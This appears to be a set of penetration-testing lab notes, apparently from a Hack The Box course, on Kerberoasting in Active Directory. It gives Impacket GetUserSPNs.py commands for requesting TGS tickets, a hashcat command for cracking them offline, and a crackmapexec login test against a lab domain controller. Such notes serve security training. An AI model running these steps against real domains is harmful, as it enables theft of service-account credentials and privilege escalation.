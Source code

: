 ## Table of Contents

  - [Table of Contents](#Table\of\Contents)
  - [Table of Contents](#Table\of\Contents)
  - [Overview](#Overview)
    - [What is SPN?](#What\is\SPN?)
    - [Why is it Vulnerable?](#Why\is\it\Vulnerable?)
  - [Kerberoasting Attack Scenarios](#Kerberoasting\Attack\Scenarios)
  - [Tools for the Attack](#Tools\for\the\Attack)
  - [Efficacy of the Attack](#Efficacy\of\the\Attack)
- [Kerberoasting Attack](#kerberoasting\attack)
  - [Introduction](#Introduction)
  - [Using GetUserSPNs.py from Impacket](#Using\GetUserSPNs.py\from\Impacket)
    - [Installing Impacket](#Installing\Impacket)
    - [Listing Service Principal Names (SPNs)](#Listing\Service\Principal\Names\(SPNs))
      - [Example](#Example)
    - [Requesting TGS Tickets](#Requesting\TGS\Tickets)
      - [Example](#Example)
    - [Targeted TGS Request - Use `-request-user [USERNAME]` to pull TGS for a specific user account. #### Example](#Targeted\TGS\Request\-\Use\`-request-user\[USERNAME]`\to\pull\TGS\for\a\specific\user\account.\####\Example)
    - [Saving TGS to Output File - Use `-outputfile [FILENAME]` to save TGS to a file. #### Example](#Saving\TGS\to\Output\File\-\Use\`-outputfile\[FILENAME]`\to\save\TGS\to\a\file.\####\Example)
      - [Cracking the Ticket Offline with Hashcat](#Cracking\the\Ticket\Offline\with\Hashcat)
      - [Testing Authentication against a Domain Controller](#Testing\Authentication\against\a\Domain\Controller)

## Table of Contents

  - [Table of Contents](#Table\of\Contents)
  - [Overview](#Overview)
    - [What is SPN?](#What\is\SPN?)
    - [Why is it Vulnerable?](#Why\is\it\Vulnerable?)
  - [Kerberoasting Attack Scenarios](#Kerberoasting\Attack\Scenarios)
  - [Tools for the Attack](#Tools\for\the\Attack)
  - [Efficacy of the Attack](#Efficacy\of\the\Attack)
- [Kerberoasting Attack](#kerberoasting\attack)
  - [Introduction](#Introduction)
  - [Using GetUserSPNs.py from Impacket](#Using\GetUserSPNs.py\from\Impacket)
    - [Installing Impacket](#Installing\Impacket)
    - [Listing Service Principal Names (SPNs)](#Listing\Service\Principal\Names\(SPNs))
      - [Example](#Example)
    - [Requesting TGS Tickets](#Requesting\TGS\Tickets)
      - [Example](#Example)
    - [Targeted TGS Request - Use `-request-user [USERNAME]` to pull TGS for a specific user account. #### Example](#Targeted\TGS\Request\-\Use\`-request-user\[USERNAME]`\to\pull\TGS\for\a\specific\user\account.\####\Example)
    - [Saving TGS to Output File - Use `-outputfile [FILENAME]` to save TGS to a file. #### Example](#Saving\TGS\to\Output\File\-\Use\`-outputfile\[FILENAME]`\to\save\TGS\to\a\file.\####\Example)
      - [Cracking the Ticket Offline with Hashcat](#Cracking\the\Ticket\Offline\with\Hashcat)
      - [Testing Authentication against a Domain Controller](#Testing\Authentication\against\a\Domain\Controller)


## Table of Contents

1. [Overview](https://chat.openai.com/c/8edf0f8c-9293-46be-b9a8-8462483e1455#overview)
2. [Kerberoasting Attack Scenarios](https://chat.openai.com/c/8edf0f8c-9293-46be-b9a8-8462483e1455#kerberoasting-attack-scenarios)
3. [Tools for the Attack](https://chat.openai.com/c/8edf0f8c-9293-46be-b9a8-8462483e1455#tools-for-the-attack)
4. [Efficacy of the Attack](https://chat.openai.com/c/8edf0f8c-9293-46be-b9a8-8462483e1455#efficacy-of-the-attack)
5. [Performing the Attack from a Linux Host](https://chat.openai.com/c/8edf0f8c-9293-46be-b9a8-8462483e1455#performing-the-attack-from-a-linux-host)

---

## Overview

**Kerberoasting** is a technique used for lateral movement and privilege escalation in Active Directory (AD) environments. The attack targets accounts with Service Principal Names (SPNs).

### What is SPN?

SPN stands for **Service Principal Name**. It's a unique identifier that Kerberos uses to map a service instance to a service account.

### Why is it Vulnerable?

- Service accounts often have elevated privileges.
- Weak or reused passwords are commonly used for simplifying administration.

**Note**: Simply having a Kerberos ticket does not grant the ability to execute commands. However, the ticket is encrypted with the service account’s NTLM hash. Therefore, you can potentially obtain the cleartext password by performing an offline brute-force attack.

---

## Kerberoasting Attack Scenarios

Depending on your position in the network, this attack can be executed in various ways:

1. **From a non-domain joined Linux host**: Requires valid domain user credentials.
2. **From a domain-joined Linux host**: Requires root access and the keytab file.
3. **From a domain-joined Windows host**: Authenticated as a domain user or with a shell in the context of a domain account.
4. **As SYSTEM on a domain-joined Windows host**: Requires SYSTEM level access.
5. **From a non-domain joined Windows host**: Utilizing `runas /netonly`.

---

## Tools for the Attack

You can use multiple tools to execute this attack:

- **From Linux**: Impacket’s `GetUserSPNs.py`
- **From Windows**: A combination of `setspn.exe`, PowerShell, and Mimikatz, or tools like PowerView and Rubeus.

---

## Efficacy of the Attack

The success of the attack is not guaranteed and is influenced by various factors:

- Strength of passwords
- Level of privileges associated with the service accounts

You may gain full Domain Admin access or nothing at all. The risk level in your report should vary based on the outcome of the attack.


# Kerberoasting Attack

## Introduction
- Kerberoasting is a technique to extract service account credentials.
- Multiple methods exist to perform this attack from Linux and Windows hosts.

## Using GetUserSPNs.py from Impacket

### Installing Impacket
- Clone the Impacket repository.
- Install using `sudo python3 -m pip install .`

### Listing Service Principal Names (SPNs)
- Use `GetUserSPNs.py -dc-ip [DC IP] [DOMAIN/USER]` to list SPNs.
- Output includes SPN, username, group membership, password last set, etc.

#### Example
`$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend`


### Requesting TGS Tickets
- Use `-request` flag to pull TGS tickets for offline cracking.

#### Example
`$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request`
  
### Targeted TGS Request - Use `-request-user [USERNAME]` to pull TGS for a specific user account. #### Example

``$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev`

  
### Saving TGS to Output File - Use `-outputfile [FILENAME]` to save TGS to a file. #### Example

`$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs`

Here we've written the TGS ticket for the `sqldev` user to a file named `sqldev_tgs`. Now we can attempt to crack the ticket offline using Hashcat hash mode `13100`.

#### Cracking the Ticket Offline with Hashcat

  Cracking the Ticket Offline with Hashcat

```shell-session
gdxqpardo@htb[/htb]$ hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt 
```

#### Testing Authentication against a Domain Controller

  Testing Authentication against a Domain Controller

```shell-session
gdxqpardo@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u sqldev -p database!
```
